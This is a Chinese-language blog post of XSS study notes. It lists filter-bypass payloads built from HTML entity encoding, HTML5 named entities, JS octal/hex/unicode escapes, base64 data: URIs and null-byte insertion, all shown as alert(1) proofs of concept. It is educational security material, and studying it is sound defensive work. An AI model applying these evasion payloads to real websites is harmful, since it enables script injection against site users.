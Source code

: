 ```yaml
---
title: XSS学习笔记1
time: 2016.02.01 17:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结，包括实体编码，js编码，base64编码，和一些绕过黑名单检测的方法，最后还有一个fuzzing的福利^_^
    
---
```


### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
	以下两个表示相同：

		<img src="http://www.example.com"> 
		<img src="ht&#x74;p&#x3a;//www.example.com">
	下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

		<img src&#x3d;"http://www.example.com"> 
		<img s&#x72;c="http://www.example.com">
		
- HTML实体编码有两种，10进制与16进制

	
	{% highlight HTML %}
	如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
	{% endhighlight %} 

- 比如有一个输出点：

		<img src="[代码]"> 
	且过滤了script < > / \ http: 以及各种危险字符。
	
	那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
	构造代码：
		
		<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
	原代码：
		
		<img src="x" onerror="alert(1)">
	这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

	之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器一般是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：
	
		',alert(1)' ＝＝＝》
		html16进制编码 &#x27,alert(1)+&#x27
		＝》》url编码%26%23x27,alert(1)%2b%26%23x27
	说明：url编码用于绕过&＃的过滤

---

###黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
	{% highlight html %}
	&colon; => [冒号]
	&NewLine; => [换行]
	case: <a 	 
	href="javasc&NewLine;ript&colon;alert(1)">click</a>
	{% endhighlight %}

2. Hex编码常规变异(增添多个0)
	
		对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
		
		对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）

		对于<可编码为&#x3c
		

---

###Javascript编码
js能识别的编码有：Jsunicode js8进制 js16进制

JS的注入点一般分为两种情况：

1. 输入的值存入某个变量，然后经过一系列变换最后出现在某个能把字符串当做JS代码来执行的函数里。该函数一般为：eval（），setTimeout（），setInterval（）...
2. 还有一种情况就是在一个搜索框内

	比如：
	
		var search = "可控点";
		document.getElementById().innerHTML=search;

对于上述情况，大多数程序都会过滤<> ' " & %等特殊字符

此时，我们就要尝试用js8进制和10进制进行绕过。

对于原代码为：

	<img src=x onerror=alert('xss')>

js八进制编码：
		
		\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\47\170\163\163\47\51\76
js16进制编码：

	\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x78\x73\x73\x29\x3e
 
JSunicode编码： 

	\u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0078\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003e
	
测试以后，都能跳出这个界面：

![image](http://momomoxiaoxi.com/img/post/XSS/2.png)

注：在XSS中，字符数的长短也是一个很重要的问题！越短越好！
在asp的站中插XSS代码的时候，（存储型XSS），经常会因为插入的代码太长，导致数据库字段的长度不够，最终存不进去，报错的情况。所以，XSS的代码越短越好。

---

### base64编码

base64一般用于下列情况
	
	<a href="可控点">
	<iframe src="可控点">
	
如果这种情况下，程序过滤了<> ' " javascript的话，XSS可尝试利用base64编码
	
	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

用chrome测试：
![image](http://momomoxiaoxi.com/img/post/XSS/3.png)

![image](http://momomoxiaoxi.com/img/post/XSS/4.png)

上图，当点击test是，浏览器就会以data协议对text/html进行解析，编码为base64，最终解析为
	
	<img src=x onerror=alert(1)>
然后成功弹窗。

--- 

### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


### 	Fuzzing
![image](http://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
